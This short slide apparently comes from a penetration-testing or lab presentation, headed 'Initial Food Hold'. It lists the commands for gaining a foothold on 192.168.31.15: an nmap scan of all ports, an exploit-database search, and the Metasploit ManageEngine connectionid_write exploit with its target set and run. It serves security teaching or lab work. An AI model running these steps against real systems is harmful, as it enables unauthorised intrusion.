

# Initial Food Hold
Attack execution steps:
Run port scan against the target with nmap ( # nmap –p- 192.168.31.15)
Analysis the vulnerability in internet (exploit db, searchsploit)
Run metasploit (# msfconsole)
Search the exploit ( # msf> manage engine)
Select the exploit ( # msf > use exploit/windows/http/manageengine_connectionid_write  )
Set target ( # > set RHOSTS 192.168.31.15)
Run the exploit (#  > exploit)